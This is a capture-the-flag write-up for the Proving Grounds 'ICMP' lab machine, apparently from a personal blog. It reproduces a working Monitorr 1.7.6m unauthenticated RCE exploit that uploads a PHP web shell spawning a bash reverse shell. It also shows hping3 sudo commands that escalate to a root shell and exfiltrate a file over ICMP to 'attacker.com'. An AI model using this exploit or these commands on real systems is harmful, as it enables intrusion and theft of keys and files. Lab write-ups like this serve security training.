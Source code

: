 ```yaml
---
title: "Proving grounds Play: ICMP"
layout: post
date: 2023-07-15 12:00
categories: writeup
---
```


Proving grounds Play - ICMP CTF writeup.

## Walkthrough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/ICMP/youtube.png)](https://youtu.be/6fyL_fFyV4c)

## NMAP

![img](/assets/images/CTF/Proving_Grounds/ICMP/nmap.png)

## PORT 80 Tech Stack

- Operating System: Debian
- Web Technology: Apache, PHP (view-page-source)

## Monitorr

![img](/assets/images/CTF/Proving_Grounds/ICMP/monitorr%20version.png)

![img](/assets/images/CTF/Proving_Grounds/ICMP/searchsploit_search.png)

### Exploit Code

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers)
```
### Obtaining Reverse Shell

![img](/assets/images/CTF/Proving_Grounds/ICMP/rce1.png)

**Obtained local flag**

![img](/assets/images/CTF/Proving_Grounds/ICMP/local_flag.png)

# Privilege Escalation
### Obtain user

The permission is denied to access the `devel` folder as current user is not a system user. But as the tip found in the reminder file below.

![img](/assets/images/CTF/Proving_Grounds/ICMP/reminder.png)

The php file `crypt.php` inside the `devel` folder disclosed the SSH password for the user `fox`.

```php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>
```
**User access obtained.**

![img](/assets/images/CTF/Proving_Grounds/ICMP/user.png)

## Root Privilege Escalation

Check the current user sudo permissions.

![img](/assets/images/CTF/Proving_Grounds/ICMP/sudo-l.png)

Search for exploit in GTFO bins for `hping3`

### Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```sh
sudo hping3
/bin/sh
```

The file is continuously sent, adjust the `--count` parameter or kill the sender when done. Receive on the attacker box with:
```sh
sudo hping3 --icmp --listen xxx --dump
```

RHOST=attacker.com
LFILE=file_to_read
```sh
sudo hping3 "$RHOST" --icmp --data 500 --sign xxx --file "$LFILE"
```

## Transfering SSH key locally to obtain root access through hping3

### ICMP Listener

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp-listener.png)

### ICMP: Data send

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp_key_send.png)

### ICMP: Data Receive

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp_root_ssh_key.png)

## SSH Root User

SSH to the root user using the obtained root SSH key.

![img](/assets/images/CTF/Proving_Grounds/ICMP/root.png)

**Root user access and proof.txt obtained**

![img](/assets/images/CTF/Proving_Grounds/ICMP/proof.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
